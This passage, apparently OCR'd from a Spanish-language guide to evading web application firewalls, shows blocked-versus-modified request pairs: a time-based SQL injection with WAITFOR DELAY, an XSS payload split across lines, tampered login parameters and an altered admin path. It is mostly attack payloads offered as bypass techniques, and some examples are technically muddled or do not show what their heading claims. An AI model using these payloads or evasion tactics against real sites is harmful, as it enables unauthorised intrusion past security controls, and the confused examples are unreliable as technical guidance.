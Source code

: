 **Solicitud original bloqueada:**
```bash
GET /search?q=' OR 1=1; --
```

**Actualizado con inyección SQL basada en tiempo:**
```bash
GET /search?q='; IF (1=1) WAITFOR DELAY '00:00:05'; --
```

## 11. Manipulación de Parámetros HTTP

**Cómo hacerlo:**  
Modifica parámetros en solicitudes HTTP, particularmente solicitudes POST, para evadir las reglas del WAF enfocadas en solicitudes GET.

**Solicitud original bloqueada:**
```bash
POST /login HTTP/1.1
username=admin&password=123456
```

**Actualizado con manipulación de parámetros:**
```bash
POST /login HTTP/1.1
username=admin&password=wrong_password
```

## 12. Fragmentación de Payload

**Cómo hacerlo:**  
Divide el payload en múltiples solicitudes o paquetes para evitar la detección del WAF.

**Solicitud original bloqueada:**
```bash
<script>alert('XSS')</script>
```

**Actualizado con fragmentación de payload:**
```bash
<script>aler
t('XSS')</script>
```

## 13. Análisis de Pruebas y Registros

**Cómo hacerlo:**  
Analiza los registros y respuestas del WAF para identificar qué payloads están siendo bloqueados y ajustarlos en consecuencia.

**Solicitud original bloqueada:**
```bash
GET /admin HTTP/1.1
```

**Actualizado basado en análisis de registros:**
```bash
GET /admin.php HTTP/1.1
```
